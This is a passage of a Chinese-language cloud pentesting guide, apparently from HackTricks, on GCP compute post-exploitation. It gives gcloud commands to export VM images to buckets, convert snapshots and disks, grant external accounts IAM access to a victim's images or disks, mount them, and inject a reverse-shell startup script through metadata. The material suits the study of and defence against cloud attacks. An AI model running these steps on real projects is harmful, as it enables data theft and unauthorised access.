 # GCP - 计算后渗透

{{#include ../../../banners/hacktricks-training.md}}

## 计算

有关计算和 VPC（网络）的更多信息，请查看：

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### 本地导出和检查镜像

这将允许攻击者**访问已存在镜像中包含的数据**或**创建正在运行的虚拟机的新镜像**，并在没有访问正在运行的虚拟机的情况下访问其数据。

可以将虚拟机镜像导出到一个存储桶，然后使用以下命令下载并在本地挂载它：
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
在执行此操作之前，攻击者可能需要对存储桶拥有权限，并且肯定需要对 **cloudbuild** 拥有权限，因为这是将被请求执行导出的 **服务**。\
此外，为了使其正常工作，codebuild SA 和 compute SA 需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要：

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

而 SA `<project-id>-compute@developer.gserviceaccount.com` 需要：

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### 本地导出和检查快照与磁盘

无法直接导出快照和磁盘，但可以 **将快照转换为磁盘，将磁盘转换为映像**，并按照 **前一部分**，将该映像导出以便在本地检查。
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspect an Image creating a VM

为了访问**存储在映像中的数据**或**运行中的虚拟机**，攻击者**创建了一个映像**，可以授予外部帐户对该映像的访问权限：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从它创建一个新的虚拟机：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果您无法通过镜像授予外部帐户访问权限，您可以在受害者的项目中使用该镜像启动虚拟机，并**使元数据执行反向 shell**以访问镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

为了访问**存储在磁盘或快照中的数据，您可以将快照转换为磁盘，将磁盘转换为映像，并按照之前的步骤进行操作。**

或者您可以**授予外部帐户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从中创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘** 附加到实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
挂载磁盘到虚拟机内：

1.  **SSH 进入虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常可以找到它作为 `/dev/sdb`、`/dev/sdc` 等。
3.  **格式化并挂载磁盘**（如果是新磁盘或原始磁盘）：

- 创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- 挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果您 **无法将快照或磁盘的访问权限授予外部项目**，您可能需要在 **与快照/磁盘相同项目中的实例内执行这些操作**。

{{#include ../../../banners/hacktricks-training.md}}
